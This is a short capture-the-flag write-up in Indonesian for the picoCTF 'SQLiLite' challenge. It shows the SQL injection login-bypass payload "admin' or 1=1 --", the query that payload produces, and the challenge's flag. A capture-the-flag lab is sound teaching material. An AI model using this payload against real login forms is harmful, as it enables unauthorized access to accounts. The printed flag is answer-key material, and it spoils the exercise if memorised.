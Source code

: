 # SQLiLite
- Link: https://play.picoctf.org/practice/challenge/304?category=1&page=4

## Tantangan
Can you login to this website?
Additional details will be available after launching your challenge instance.

## Penyelesaian
- Tekan tombol Launch Instance untuk memulai tantangan


- Buka URL http://saturn.picoctf.net:57603/ di browser

- Ditantangan ini kita diharuskan login sebagai `admin` dengan menggunakan SQL Injection, jadi kita bisa memasukkan username berikut dan sembarang password
```sh
admin' or 1=1 --
```

- Setelah berhasil login, muncul informasi sebagai berikut

- Tekan `Ctrl+U` untuk membuka source code halaman. Disini kita menemukan flag

- Inputan diatas akan membentuk query sebagai berikut
```sh
SELECT * FROM users WHERE name='admin' or 1=1 --' AND password='asdf'
```
- Flag
```sh
picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}
```